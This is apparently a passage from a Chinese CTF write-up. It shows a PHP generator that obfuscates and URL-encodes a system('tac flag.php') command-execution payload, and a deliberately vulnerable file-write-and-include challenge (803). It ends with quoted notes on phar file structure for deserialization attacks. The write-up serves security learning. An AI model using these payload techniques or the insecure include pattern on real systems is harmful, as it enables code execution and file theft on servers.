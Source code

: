 ```php

		$c = $code[$i];
		if(ord($c)<97 || ord($c)>122){
			$ret .= "$c";
		}else{
			$ret .= '$'.str_repeat('_', ord($c)-96);
		}

		
	}
	return urlencode("$precode(\"".substr($ret,0,stripos($ret, "("))."\")".substr($ret, stripos($ret,"(")));
}


echo createCode('system("tac flag.php");');
```

## 803-phar文件包含



```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

跟学姐学习一下：[phar反序列化漏洞学习 - beiwo - 博客园 (cnblogs.com)](https://www.cnblogs.com/wkzb/p/15783434.html)

> 一、phar 文件由四部分构成：
>
> 1. stub
>
>    可以理解为 phar 文件的标志，必须以 `xxx __HALT_COMPILER();?>` 结尾，否则无法识别。`xxx` 可以为自定义内容。
>
> 2. manifest
>
>    phar 文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的 meta-data，这是漏洞利用最核心的地方。
>
> 3. content
>
>    被压缩文件的内容
>
> 4. signature (可空)